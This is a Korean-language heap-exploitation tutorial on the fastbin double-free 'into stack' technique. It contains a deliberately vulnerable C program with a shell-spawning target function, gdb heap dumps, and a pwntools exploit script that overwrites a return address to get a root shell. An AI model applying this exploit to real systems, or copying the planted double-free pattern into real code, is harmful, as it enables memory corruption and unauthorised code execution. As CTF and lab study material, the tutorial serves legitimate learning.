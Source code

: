 # **fastbin-dup_into_stack**

## **Conditions**

* 공격자에 의해 동일한 크기의 Fast Chunk의 할당과 해제가 자유로워야 한다.
* 공격자에 의해 해제된 Fast Chunk를 한 번 더 해제할 수 있어야 한다.(Double Free Bug)
* 공격자에 의해 할당된 Fast Chunk 영역에 값을 저장할 수 있어야 한다.
* 할당 받고자 하는 Stack 영역에 해제된 Fast Chunk의 크기 값이 저장되어 있어야 한다.

## **Exploit Plan**

1. 동일한 크기의 Fast Chunk(A, B, C) 3개 생성한다.
1. 첫 번째 Fast Chunk(A) 해제한다.
1. 두 번째 Fast Chunk(B) 해제한다.
1. 첫 번째 Fast Chunk(A) 해제한다
1. 이전과 동일한 크기로 힙을 할당하고 해당 Chunk 영역에 "Stack 영역 주소 값 - prev_size 공간(0x8)" 쓴다.
1. 동일한 크기로 Fast Chunk 2개 생성한다.
1. 다음에 할당하는 영역에 원하는 값 쓴다.
    * 할당된 영역은 "Stack 영역의 주소 값 + 0x8" 영역

A -> B -> A 로 해제하는 이유는 동일한 공간을 연속으로 해제하는 경우 double free or corruption이 발생하기 때문이다.

5번째에 동일한 크기로 힙을 할당하는 경우 첫 번째 A가 할당되는데 여기에 값을 쓸 수 있다면 Fake Chunk로 조작이 가능하다.

![fastbin_dup_malloc](/Resources/img/fastbin_dup_malloc.png)

원래 세 번째 A의 FD 값에는 아무 값도 없기 때문에 다음 청크가 없었지만, 첫 번째 A가 할당되면서 FD, BK 부분이 데이터 영역으로 변했고, Fake Chunk 값을 쓰면 세 번째 A의 FD가 변조된다.  

Fake Chunk의 조건

* 이전 Chunk의 Size와 Fake Chunk의 Size가 동일해야 함
* 우리가 변조하고자 하는 주소보다 작은 주소에 위치해야 함

## **Proof of Concept**

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void call_me(){
       system("/bin/sh");
}

int main()
{
        long stack_var = 0x0;
        scanf("%ld",&stack_var);
        printf("Stack_var : %p\n",&stack_var);

        char *buf1 = malloc(112);
        char *buf2 = malloc(112);
        char *buf3 = malloc(112);

        free(buf1);
        free(buf2);
        free(buf1);

        char *buf4 = malloc(112); 
        char *buf5 = malloc(112);

        scanf("%8s",buf4);

        char *buf6 = malloc(112); 
        char *buf7 = malloc(112);
        read(0,buf7,112);  
}
```

buf1을 2번 Free 후 buf4에 scanf로 입력받는다.  
Tail buf1의 fd는 Null이지만 현재 buf4로 malloc을 해준 상태로 Tail의 fd를 조작할 수 있다.

```
gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x602820 --> 0x4141414141414141 (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x6029a0 (size : 0x20660) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

Fast Chunk의 크기가 동일해야 하므로 Stack 내 128(0x80)이 존재하는 부분을 확인한 후 해당 위치의 - 0x8 한 위치(0x7ffe2d26fa38)를 입력해야한다. (Chunk의 시작)  
0x7ffe2d26fa48부터 User Data이며 read로 입력받도록 만들었다.

```
gdb-peda$ x/4x 0x7ffe2d26fa38
0x7ffe2d26fa38:	0x0000000000400783	0x0000000000000080
0x7ffe2d26fa48:	0x000000000040080d	0x00007ffe2d26fa7e

gdb-peda$ heapinfo
(0x20)     fastbin[0]: 0x0
(0x30)     fastbin[1]: 0x0
(0x40)     fastbin[2]: 0x0
(0x50)     fastbin[3]: 0x0
(0x60)     fastbin[4]: 0x0
(0x70)     fastbin[5]: 0x0
(0x80)     fastbin[6]: 0x112a420 --> 0x7ffe2d26fa38 --> 0x40080d (size error (0x415d5b08c48348e8)) --> 0xc35f415e415d415c (invaild memory)
(0x90)     fastbin[7]: 0x0
(0xa0)     fastbin[8]: 0x0
(0xb0)     fastbin[9]: 0x0
                  top: 0x112a5a0 (size : 0x20a60) 
       last_remainder: 0x0 (size : 0x0) 
            unsortbin: 0x0
```

read를 통해 main의 return 값을 변조하여 call_me로 분기가 가능하다. 

```
gdb-peda$ x/24gx $rbp-0x48
0x7ffc9c05d7d8:	0x00000000004007b5  0x0000000000000080 <- Chunk Header
0x7ffc9c05d7e8:	0x4141414141414141  0x4141414141414141 <- User Data
0x7ffc9c05d7f8:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d808:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d818:	0x4141414141414141  0x4141414141414141
0x7ffc9c05d828:	0x00000000004006b6  0x000000000000000a

gdb-peda$ x/2x $rbp
0x7ffc9c05d820:	0x4141414141414141	0x00000000004006b6 <- ret
```

## **Exploit Code**

```python
from pwn import *

call_me = 0x4006b6
p = process('./fastbin_dup')
#gdb.attach(p)
p.sendline("128")  # Set Chunk Size in Stack
stack_addr = int(p.recvline().split(' ')[2],16)
log.info('Stack Addr : ' + hex(stack_addr)) 
p.sendline(p64(stack_addr - 0x8)) # size - 0x8(Chunk)
#raw_input('1')
p.sendline("A"*0x40 + p64(call_me)) # Modulate Stack

p.interactive()
```

## **Exploit**

```
root@bs-virtual-machine:~/pwnable/fastbin# python exploit.py 
[+] Starting local process './fastbin_dup': pid 4442
[*] Stack Addr : 0x7ffc3ed4ffc0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) groups=0(root)
```

**References**  
<https://www.lazenca.net/display/TEC/fastbin_dup_into_stack>  
<https://bachs.tistory.com/entry/HITCON-Training-lab12-Fastbin-Attack?category=961837>